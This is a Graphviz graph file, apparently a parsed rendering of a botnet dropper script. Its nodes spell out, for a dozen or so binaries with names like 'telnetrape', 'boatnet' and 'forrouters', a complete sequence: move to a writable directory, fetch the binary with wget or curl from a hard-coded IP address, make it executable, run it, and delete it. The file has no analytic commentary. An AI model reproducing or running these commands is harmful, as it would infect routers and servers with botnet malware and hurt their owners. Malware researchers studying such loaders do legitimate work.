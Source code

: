digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.165.29.82/forrouters "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.165.29.82/forrouters "];
12 -> 14 [label=";,"];
14 [label="chmod +x forrouters "];
14 -> 16 [label=";,"];
16 [label="./forrouters "];
16 -> 18 [label=";,"];
18 [label="rm -rf forrouters "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.165.29.82/Gooo "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.165.29.82/Gooo "];
32 -> 34 [label=";,"];
34 [label="chmod +x Gooo "];
34 -> 36 [label=";,"];
36 [label="./Gooo "];
36 -> 38 [label=";,"];
38 [label="rm -rf Gooo "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.165.29.82/infectionation "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.165.29.82/infectionation "];
52 -> 54 [label=";,"];
54 [label="chmod +x infectionation "];
54 -> 56 [label=";,"];
56 [label="./infectionation "];
56 -> 58 [label=";,"];
58 [label="rm -rf infectionation "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.165.29.82/telnetrape "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.165.29.82/telnetrape "];
72 -> 74 [label=";,"];
74 [label="chmod +x telnetrape "];
74 -> 76 [label=";,"];
76 [label="./telnetrape "];
76 -> 78 [label=";,"];
78 [label="rm -rf telnetrape "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.165.29.82/serversrape "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.165.29.82/serversrape "];
92 -> 94 [label=";,"];
94 [label="chmod +x serversrape "];
94 -> 96 [label=";,"];
96 [label="./serversrape "];
96 -> 98 [label=";,"];
98 [label="rm -rf serversrape "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.165.29.82/cdot "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.165.29.82/cdot "];
112 -> 114 [label=";,"];
114 [label="chmod +x cdot "];
114 -> 116 [label=";,"];
116 [label="./cdot "];
116 -> 118 [label=";,"];
118 [label="rm -rf cdot "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.165.29.82/honcho "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.165.29.82/honcho "];
132 -> 134 [label=";,"];
134 [label="chmod +x honcho "];
134 -> 136 [label=";,"];
136 [label="./honcho "];
136 -> 138 [label=";,"];
138 [label="rm -rf honcho "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.165.29.82/H3 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.165.29.82/H3 "];
152 -> 154 [label=";,"];
154 [label="chmod +x H3 "];
154 -> 156 [label=";,"];
156 [label="./H3 "];
156 -> 158 [label=";,"];
158 [label="rm -rf H3 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.165.29.82/proxies "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.165.29.82/proxies "];
172 -> 174 [label=";,"];
174 [label="chmod +x proxies "];
174 -> 176 [label=";,"];
176 [label="./proxies "];
176 -> 178 [label=";,"];
178 [label="rm -rf proxies "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.165.29.82/boatnet "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.165.29.82/boatnet "];
192 -> 194 [label=";,"];
194 [label="chmod +x boatnet "];
194 -> 196 [label=";,"];
196 [label="./boatnet "];
196 -> 198 [label=";,"];
198 [label="rm -rf boatnet "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.165.29.82/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.165.29.82/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.165.29.82/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.165.29.82/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.165.29.82/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.165.29.82/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
